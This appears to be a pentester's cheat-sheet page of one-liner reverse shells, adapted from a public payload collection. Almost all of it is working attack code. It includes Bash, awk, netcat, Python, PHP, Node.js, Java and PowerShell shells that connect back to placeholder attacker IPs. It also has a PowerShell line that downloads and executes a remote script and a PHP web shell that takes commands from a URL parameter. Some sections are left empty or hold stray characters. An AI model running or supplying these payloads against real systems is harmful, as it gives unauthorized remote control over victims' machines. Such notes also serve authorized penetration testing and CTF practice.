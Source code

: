 # One-liner Reverse Shell

## Necessary Steps After reverse shell

* We need to get tty shell first.
  * `python -c 'import pty; pty.spawn("/bin/bash");'`
  * d

## How to solve the problem of multiple quotes in a single command while designing a payload?

* 
## UDP Reverse shells

#### Bash UDP

```text
Victim:
sh -i >& /dev/udp/127.0.0.1/4242 0>&1

Listener:
nc -u -lvp 4242
```

## Bash/Linux

* shell script : `/bin/bash -c 'bash -i >& /dev/tcp/10.0.0.1/8080 0>&1'`
* Awk : `awk 'BEGIN {s = "/inet/tcp/0/10.0.0.1/4242"; while(42) { do{ printf "shell>" |& s; s |& getline c; if(c){ while ((c |& getline) > 0) print $0 |& s; close(c); } } while(c != "exit") close(s); }}' /dev/null`
* Ncat :
  *  `ncat 127.0.0.1 4444 -e /bin/bash` 
  * `ncat --udp 127.0.0.1 4444 -e /bin/bash`
* Python : 
  * `/bin/python -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("10.10.10.10",4444));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1);os.dup2(s.fileno(),2);import pty; pty.spawn("/bin/bash")'`
  * `/usr/bin/python -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("",));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(["/bin/sh","-i"]);'`
* Netcat :
  * `nc -e /bin/bash 10.0.0.1 1234`
  * `nc -c /bin/sh 10.0.0.1 1234`

## PHP

### Check if PHP script could be execute

* `<?php $text = phpversion(); alert($text); ?>`
* `<?php echo '<script> alert("Simple alert message"); </script>' ?>`
* `<?php system($_GET["cmd"]); ?>`

### Reverse shell

* `<?php echo shell_exec("/bin/bash -c 'bash -i >& /dev/tcp/10.0.0.1/1234 0>&1'");?>`
* `php -r '$sock=fsockopen("10.0.0.1",1234);exec("/bin/sh -i <&3 >&3 2>&3");`

## Javascript

```text
var spawn = require('child_process').spawn;
var net = require('net');
var reconnect = require('reconnect');

reconnect(function (stream) {
    var ps = spawn('bash', [ '-i' ]);
    stream.pipe(ps.stdin);
    ps.stdout.pipe(stream, { end: false });
    ps.stderr.pipe(stream, { end: false });
    ps.on('exit', function () { stream.end() });
}).connect(5500, '192.168.60.124');
```

## Powershell

```text
powershell IEX (New-Object Net.WebClient).DownloadString('https://gist.githubusercontent.com/staaldraad/204928a6004e89553a8d3db0ce527fd5/raw/fe5f74ecfae7ec0f2d50895ecf9ab9dafe253ad4/mini-reverse.ps1')
```

```text
powershell -nop -c "$client = New-Object System.Net.Sockets.TCPClient('10.0.0.1',4242);$stream = $client.GetStream();[byte[]]$bytes = 0..65535|%{0};while(($i = $stream.Read($bytes, 0, $bytes.Length)) -ne 0){;$data = (New-Object -TypeName System.Text.ASCIIEncoding).GetString($bytes,0, $i);$sendback = (iex $data 2>&1 | Out-String );$sendback2 = $sendback + 'PS ' + (pwd).Path + '> ';$sendbyte = ([text.encoding]::ASCII).GetBytes($sendback2);$stream.Write($sendbyte,0,$sendbyte.Length);$stream.Flush()};$client.Close()"
```

```text
powershell -NoP -NonI -W Hidden -Exec Bypass -Command New-Object System.Net.Sockets.TCPClient("10.0.0.1",4242);$stream = $client.GetStream();[byte[]]$bytes = 0..65535|%{0};while(($i = $stream.Read($bytes, 0, $bytes.Length)) -ne 0){;$data = (New-Object -TypeName System.Text.ASCIIEncoding).GetString($bytes,0, $i);$sendback = (iex $data 2>&1 | Out-String );$sendback2  = $sendback + "PS " + (pwd).Path + "> ";$sendbyte = ([text.encoding]::ASCII).GetBytes($sendback2);$stream.Write($sendbyte,0,$sendbyte.Length);$stream.Flush()};$client.Close()
```

## Java

```text
r = Runtime.getRuntime()
p = r.exec(["/bin/bash","-c","exec 5<>/dev/tcp/10.0.0.1/4242;cat <&5 | while read line; do \$line 2>&5 >&5; done"] as String[])
p.waitFor()
```

## Windows Reverse shell using powershell

```text
$client = New-Object System.Net.Sockets.TCPClient("10.10.10.10",80);$stream = $client.GetStream();[byte[]]$bytes = 0..65535|%{0};while(($i = $stream.Read($bytes, 0, $bytes.Length)) -ne 0){;$data = (New-Object -TypeName System.Text.ASCIIEncoding).GetString($bytes,0, $i);$sendback = (iex $data 2>&1 | Out-String );$sendback2 = $sendback + "PS " + (pwd).Path + "> ";$sendbyte = ([text.encoding]::ASCII).GetBytes($sendback2);$stream.Write($sendbyte,0,$sendbyte.Length);$stream.Flush()};$client.Close()
```

![](../../.gitbook/assets/image%20%2817%29.png)

Ref : [https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Methodology%20and%20Resources/Reverse%20Shell%20Cheatsheet.md](https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Methodology%20and%20Resources/Reverse%20Shell%20Cheatsheet.md)

Cyber security -&gt; Security bits -&gt; Reverse shells

